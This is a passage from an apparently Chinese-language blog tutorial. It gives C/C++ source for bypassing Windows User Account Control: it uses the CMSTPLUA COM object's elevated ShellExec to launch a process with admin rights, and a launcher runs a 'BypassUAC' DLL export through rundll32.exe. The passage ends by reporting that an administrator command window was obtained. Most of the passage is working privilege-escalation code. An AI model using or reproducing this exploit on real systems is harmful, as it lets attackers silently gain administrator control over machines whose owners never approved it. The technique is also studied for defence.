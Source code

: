     	do {
    		::CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
    		::IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);
    
    		// improve privilege
    		hr = CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
    		if (FAILED(hr))
    		{
    			break;
    		}
    
    		// start proc
    		hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, NULL, NULL, 0, SW_SHOW);
    		if (FAILED(hr))
    		{
    			break;
    		}
    
    		bRet = TRUE;
    	} while (FALSE);
    
    	// release
    	if (CMLuaUtil)
    	{
    		CMLuaUtil->lpVtbl->Release(CMLuaUtil);
    	}
    
    	return bRet;
    }
    

这是启动rundll32.exe的程序源代码：

    
    
    #include <stdio.h>
    #include <Windows.h>
    
    
    int main()
    {
    	char szCmdLine[MAX_PATH] = { 0 };
    	char szRundll32Path[MAX_PATH] = "C:\Windows\System32\rundll32.exe";
    	char szDllPath[MAX_PATH] = "C:\Users\lfish\Projects\BypassUAC2Dll\Debug\BypassUAC2Dll.dll";
    	::sprintf_s(szCmdLine, "%s "%s" %s", szRundll32Path, szDllPath, "BypassUAC");
    	::WinExec(szCmdLine, SW_HIDE);
    
    	printf("Run OK.n");
    	system("pause");
    	return 0;
    }
    

注意代码中的dll路径是相对rundll32.exe而言的，因为是rundll32.exe来运行dll。

运行程序，成功得到管理员权限的cmd窗口：

![](https://lfishrhungry.github.io//img/Screen Shot 2019-08-14 at 9.44.27
AM.png)
